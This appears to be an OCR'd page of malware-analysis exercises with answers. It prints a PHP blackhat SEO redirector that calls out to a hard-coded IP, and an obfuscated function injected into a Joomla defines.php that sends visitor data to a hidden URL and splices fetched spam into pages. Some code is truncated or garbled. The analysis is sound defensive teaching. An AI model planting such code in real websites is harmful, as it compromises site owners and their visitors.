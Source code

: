 Is there any malware? If so, which piece(s) of code would you remove? Why?

>**Answer**: Blackhat SEO redir.. Remove all that garbage.
```
<?php$user_agent_to_filter = array( '#Ask\s*Jeeves#i', '#HP\s*Web\s*PrintSmart#i', '#HTTrack#i', '#IDBot#i', '#Indy\s*Library#',   
...
$_SERVER[HTTP_USER_AGENT] = str_replace(" ", "-", $_SERVER[HTTP_USER_AGENT]);$ch = curl_init();   
curl_setopt($ch, CURLOPT_URL, "http://173.236.65.24/cakes/?useragent=$_SERVER[HTTP_USER_AGENT]&domain=$ _SERVER[HTTP_HOST]");  
```

#### 15-Joomla + Malware analysis

You found the following content in ./include/defines.php of a Joomla website:
```
php//eAccelerate Caching System   
/*ordpr*/ @ini_set('display_errors', '0');   
$m[1], $m[2]);  
if(!function_exists('__e_accelerator_engine')) {function __e_accelerator_engine($output) {if (!preg_match("/(ahrefs|majestic|baidu)/i", $_SERVER['HTTP_USER_AGENT'])){ $data=serialize(array('u'=>$_SERVER['REQUEST_URI'], 'h'=>$_SERVER['HTTP_HOST'],'i'=>$_SERVER['REMOTE_ADDR'],'a'=>$_SERVER["HT TP_USER_AGENT"]));$tags=array('</body>','<p>','</div>','</span>','</heade r>','</footer>','</aside>','<h1>','<h2>','<strong>','</td>');$seed = hexdec(substr(md5($_SERVER['REQUEST_URI']), 0, 5));srand($seed);shuffle($tags);foreach($tags as $tg){if(preg_match('!'.$tg.'!', $output)) {$output=preg_replace('!'.$tg.'!', @file_get_contents(~ base64_decode('l4uLj8XQ0JWImdKKj5uei5qM0ZCNmNCKj5uei5qM0IyQno/RlYyPwI3C') . urlencode($data)).$tg, $output, 1);break;}}}return ((isset($_GET['sorted']))?('<!--sortedby:'.md5($_GET['sorted']).'-- >'):('')).$output;}   
ob_start('__e_accelerator_engine'); register_shutdown_function('ob_end_flush');} /**   
* @package Joomla.Site** @copyright Copyright (C) 2005 - 2015 Open Source Matters, Inc. All   
rights reserved.* @license GNU General Public License version 2 or later; see   
LICENSE.txt  
 */  
defined('_JEXEC') or die;  
// Global definitions$parts = explode(DIRECTORY_SEPARATOR, JPATH_BASE);   
// Defines. define('JPATH_ROOT', define('JPATH_SITE', define('JPATH_CONFIGURATION', define('JPATH_ADMINISTRATOR', 'administrator'); define('JPATH_LIBRARIES', 'libraries'); define('JPATH_PLUGINS', 'plugins'); define('JPATH_INSTALLATION', 'installation'); define('JPATH_THEMES', 'templates'); define('JPATH_CACHE', 'cache'); define('JPATH_MANIFESTS', 'manifests');   
?>
```
Is there any malicious code in that file? If so, which line(s) would you remove? Could you explain what that code is doing?
>**Answer**: Basically the entire function e_accelerator_engine is garbage code (could be malicious) that should be removed. The item is checking that the visitor (requestor) is not ahrefs|majestic|baidu. It will not spam those requestors with the payload. A quick search indicates it's an SEO spammer. That is it avoids those items as it is being used to improve search rankings elsewhere. 
>But to sum it up, remove the function and junk from this file.
